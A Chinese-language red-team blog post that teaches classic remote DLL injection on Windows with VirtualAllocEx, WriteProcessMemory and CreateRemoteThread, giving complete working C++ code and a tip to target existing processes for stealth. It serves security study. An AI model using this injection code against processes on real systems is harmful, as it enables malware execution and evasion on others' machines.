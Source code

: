 ```yaml
---
title: 远程DLL注入
date: 2023-06-23
categories: [红蓝对抗]
tags: [红蓝对抗, dll]
---
```


## 0X00 前言 

书接上回，本文介绍DLL远程注入

## 0x01 技术实现

我们这里创建一个notepad进程为例，并打印其PID和句柄。

```c++
if (CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi) == NULL){
        printf("[!] 进程创建失败\n");
        return;
}else{
        printf("[+] 进程创建成功！\n");
        printf("[+] 进程 PID: %d\n", pi.dwProcessId);
        printf("[+] 进程句柄: %p\n", pi.hProcess);
 }
```

当我们已成功获取到目标进程的进程句柄时，下一步就是将 DLL 注入到目标进程，这将需要使用几个Windows API。

|   **VirtualAllocEx**   | **类似于 VirtualAlloc ，允许在远程进程中分配内存** |
| :--------------------: | ---------------------------------- |
| **WriteProcessMemory** | **将数据写入远程进程**                      |
| **CreateRemoteThread** | **在远程进程中创建一个线程**                   |

`LoadLibraryA` 用于在调用它的进程中加载 DLL。由于是在远程进程而不是本地进程中加载 DLL，因此不能直接调用它。所以必须检索`LoadLibraryA` 的地址 并将其传递给远程进程中创建的线程。可以使用 `GetProcAddress `和 `GetModuleHandle` 来确定地址。

```c++
// 通过kernel32.dll使用 LoadLibraryA
pLoadLibraryA = GetProcAddress(GetModuleHandleA("Kernel32"), "LoadLibraryA");
```

当在远程进程中创建新线程时，存储的地址 `pLoadLibraryA` 将用作线程入口。

下一步是在远程进程中给DLL分配内存。

```c++
pAddress = VirtualAllocEx(pi.hProcess, NULL, len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

在远程进程中成功分配内存后，可以使用 [WriteProcessMemory](https://learn.microsoft.com/zh-cn/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory?redirectedfrom=MSDN)  写入分配的内存。

根据其文档，`WriteProcessMemory` 函数如下所示

```c++
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

根据 `WriteProcessMemory`上面显示的 的参数，它将按如下方式调用，将申请的内存写入分配的地址，由之前调用的 `VirtualAllocEx` 函数返回。

```c++
WriteProcessMemory(pi.hProcess, pAddress, (LPVOID)path, len, NULL);
```

将 DLL 的路径成功写入分配的内存后，然后使用CreateRemoteThread在远程进程中创建一个新线程。并将`pLoadLibraryA`作为线程的起始地址传递，然后 `pAddress` 作为参数传递给调用 。

```c++
HANDLE hThread = CreateRemoteThread(pi.hProcess, NULL, 0, pLoadLibraryA, pAddress, 0, NULL);
```

完整代码

```c++
#include <Windows.h>
#include <stdio.h>

void DLLInject(LPCSTR path)
{
    STARTUPINFOA si = { sizeof(STARTUPINFOA) };
    PROCESS_INFORMATION pi = {};

    PTHREAD_START_ROUTINE pLoadLibraryA = NULL;
    LPVOID pAddress = NULL;
    HANDLE hThread = NULL;

    // 创建一个notepad的进程
    if (CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi) == NULL)
    {
        printf("[!] 进程创建失败");
        return;
    }
    else
    {
        printf("[+] 进程创建成功！\n");
        printf("[+] 进程 PID: %d\n", pi.dwProcessId);
        printf("[+] 进程句柄: %p\n", pi.hProcess);

        int len = strlen(path);

        // 通过kernel32.dll使用 LoadLibraryA
        pLoadLibraryA = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("Kernel32"), "LoadLibraryA");
        if (pLoadLibraryA == NULL) {
            printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
        }

        pAddress = VirtualAllocEx(pi.hProcess, NULL, len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
        if (pAddress == NULL) {
            printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
        }

        WriteProcessMemory(pi.hProcess, pAddress, (LPVOID)path, len, NULL);
        printf("[*] 正在注入进程...\n");
        HANDLE hThread = CreateRemoteThread(pi.hProcess, NULL, 0, pLoadLibraryA, pAddress, 0, NULL);
        if (hThread == NULL) {
            printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
        }
        printf("[+] 进程注入成功\n");

        if (pi.hProcess)CloseHandle(pi.hProcess);
        if (pi.hThread)CloseHandle(pi.hThread);
        if (hThread)CloseHandle(hThread);
    }
}

int main()
{

    DLLInject(R"(demo.dll)");

    return 0;
}
```



## 0x02 结果验证

下面请出我们上节课的老朋友`demo.dll` 来演示。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-06-23/1.png)

可见成功注入

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-06-23/2.png)



## 0x03 小结

本文介绍了本地远程DLL注入的方法，并通过探讨了技术细节，以及具体的实现方法。当然，读者还可以通过一些其他办法，比如使用`CreateToolhelp32Snapshot` 去遍历进程然后选择已有进程注入，而不是通过创建进程去注入，这样可以更好的提升隐蔽性。

### 注：本文仅用于安全研究和学习之用

